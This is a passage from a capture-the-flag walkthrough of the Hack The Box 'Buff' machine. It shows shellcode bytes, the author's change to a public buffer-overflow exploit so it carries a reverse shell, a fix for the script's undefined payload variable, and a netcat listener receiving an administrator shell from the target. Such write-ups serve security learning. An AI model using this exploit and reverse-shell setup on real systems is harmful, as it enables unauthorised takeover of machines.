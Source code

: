 ```
buf += b"\xab\x66\x37\x9c\xd1\x16\xb8\x77\x52\x26\xf3\xd5\xf3"
buf += b"\xaf\x5a\x8c\x41\xb2\x5c\x7b\x85\xcb\xde\x89\x76\x28"
buf += b"\xfe\xf8\x73\x74\xb8\x11\x0e\xe5\x2d\x15\xbd\x06\x64"
```

I copied the command from the exploit, and modified the `-p` flag. I changed it to a regular reverse shell, and added my Kali IP and port to connect.

```
[tyco㉿4YE: ~/htb/buff]$ python 48389
Traceback (most recent call last):
  File "48389", line 50, in <module>
    overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
NameError: name 'payload' is not defined
```

One thing to note here is that this won't work right away. When you run the exploit, it will error out and say that the variable `payload` is not defined. We can fix this by adding `payload = buf` at the end of the payload so that it will run.

```
[tyco㉿4YE:~/htb/buff]$ nc -nvlp 4447
listening on [any] 4447 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.198] 50029
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```